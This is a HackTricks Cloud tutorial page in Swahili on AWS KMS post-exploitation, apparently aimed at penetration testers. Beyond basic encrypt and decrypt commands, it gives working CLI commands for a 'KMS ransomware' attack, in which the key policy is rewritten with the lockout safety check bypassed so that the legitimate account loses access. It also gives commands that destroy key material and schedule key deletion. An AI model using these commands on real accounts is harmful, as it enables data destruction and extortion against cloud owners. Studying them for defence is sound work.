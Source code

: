 # AWS - KMS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

Kwa maelezo zaidi angalia:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Encrypt/Decrypt information

`fileb://` na `file://` ni mipango ya URI inayotumika katika amri za AWS CLI kubaini njia ya faili za ndani:

* `fileb://:` Inasoma faili kwa njia ya binary, inayotumika kawaida kwa faili zisizo za maandiko.
* `file://:` Inasoma faili kwa njia ya maandiko, inayotumika kawaida kwa faili za maandiko safi, skripti, au JSON ambayo haina mahitaji maalum ya uandishi.

{% hint style="success" %}
Kumbuka kwamba ikiwa unataka kufungua baadhi ya data ndani ya faili, faili lazima iwe na data ya binary, si data iliyowekwa kwa base64. (fileb://)
{% endhint %}

* Kutumia funguo **symmetric**
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Kutumia **asymmetric** ufunguo:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

Mshambuliaji mwenye ufikiaji wa kipaumbele juu ya KMS anaweza kubadilisha sera ya KMS ya funguo na **kutoa ufikiaji wa akaunti yake juu yao**, akiondoa ufikiaji uliopewa akaunti halali.

Hivyo, watumiaji wa akaunti halali hawataweza kufikia taarifa yoyote ya huduma yoyote ambayo imekuwa imefichwa kwa kutumia funguo hizo, na kuunda ransomware rahisi lakini yenye ufanisi juu ya akaunti hiyo.

{% hint style="warning" %}
Kumbuka kwamba **funguo zinazodhibitiwa na AWS hazihusiki** na shambulio hili, ni **funguo zinazodhibitiwa na Mteja pekee**.

Pia kumbuka hitaji la kutumia param **`--bypass-policy-lockout-safety-check`** (ukosefu wa chaguo hili kwenye konso ya wavuti unafanya shambulio hili liwezekane tu kutoka CLI).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Kumbuka kwamba ikiwa utabadilisha sera hiyo na kutoa ufikiaji kwa akaunti ya nje tu, na kisha kutoka kwenye akaunti hii ya nje unajaribu kuweka sera mpya ili **kurudisha ufikiaji kwa akaunti ya awali, huwezi**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Generic KMS Ransomware

#### Global KMS Ransomware

Kuna njia nyingine ya kutekeleza KMS Ransomware ya kimataifa, ambayo itahusisha hatua zifuatazo:

* Unda **funguo mpya na vifaa vya funguo** vilivyoagizwa na mshambuliaji
* **Re-encrypt data za zamani** zilizoshikiliwa na toleo la awali na ile mpya.
* **Futa funguo za KMS**
* Sasa ni mshambuliaji tu, ambaye ana vifaa vya funguo vya awali anaweza kufungua data iliyoshikiliwa. 

### Destroy keys
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Kumbuka kwamba AWS sasa **inasitisha vitendo vya awali kufanywa kutoka akaunti tofauti:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

